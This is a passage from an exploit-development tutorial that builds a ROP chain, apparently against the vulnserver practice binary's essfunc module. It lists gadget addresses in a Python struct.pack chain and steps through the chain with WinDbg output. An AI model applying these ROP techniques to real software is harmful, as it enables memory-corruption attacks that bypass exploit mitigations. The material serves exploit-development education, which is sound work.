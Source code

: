 ```text
pop r32 // pop return address into scratch register
ret
```

So, how do we modify the pointer to direct to this gadget? We employ a slight variation of the pattern we used before:

```text
pop r32 ; ret
0x625070DC
// r32 now holds the pointer

pop r32; ret (different register than the earlier one)
0x12345678
// pop address of gadget that will perform pop/ret intruction (can be the same address of the pop r32; ret gadget 
```

Curiously, we find ourselves back at the initial issue - we need a gadget capable of storing a `DWORD` into a pointer. In a rather meta-ironic twist, we'll use the same gadget that we're attempting to manipulate:

```text
mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC] 
```

This results in the following sequence of gadgets: 

```python
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x625070DC) # ebx will be 0x625070DC 
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625012f7) # pop ebp; ret
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
```

Incorporating this into the proof of concept, we can step through the debugger to get a btter understanding of what is happening.

The first executed instruction is `pop ebx ; ret`. Skipping past this instruction reveals that `EBX` holds the pointer's address:

```text
0:004> r @ebx
ebx=625070dc
```

Next, we encounter `pop eax ; ret`. Stepping over this shows that `EAX` now holds another gadget's address, namely `pop ebp ; ret`:

```text
0:004> u eax
essfunc+0x12f7:
625012f7 5d              pop     ebp
625012f8 c3              ret
```
